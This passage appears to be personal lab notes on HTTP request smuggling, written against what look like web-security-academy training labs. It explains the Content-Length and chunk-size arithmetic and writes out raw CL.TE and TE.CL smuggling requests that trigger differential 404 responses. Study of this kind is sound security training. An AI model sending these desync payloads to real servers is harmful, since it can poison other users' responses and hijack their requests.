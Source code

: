 `5c` is the length of the of the smuggled request up to `x=1`.
Here the first `CL=4` to make the back-end server thinks that the request's body ends at `5c\r\n`, the smuggled request is queued at the back-end server. The second `CL=11` is 1 plus the length of the body:
```
x=1\r\n
0\r\n
\r\n
```
This is to make part of the next normal request stick to the smuggled request and get the response from the smuggled request respond to the normal request. This length can be up to the length of the normal request plus the length of the above body.

### LAB: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Send this request:

    POST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 28\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    0\r\n
    \r\n
    GET /404 HTTP/1.1\r\n
    Foo: 

Resend this request will result in the following request which trigger the `404 Not Found` response:

    GET /404 HTTP/1.1
    Foo: POST /HTTP/1.1
    ...

### LAB: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
Send this request:

    POST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 4\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    9d\r\n
    GET /404 HTTP/1.1\r\n
    Host: 0ac000c904bae0df80ee768800a200de.web-security-academy.net\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 11\r\n
    \r\n
    x=1\r\n
    0\r\n
    \r\n
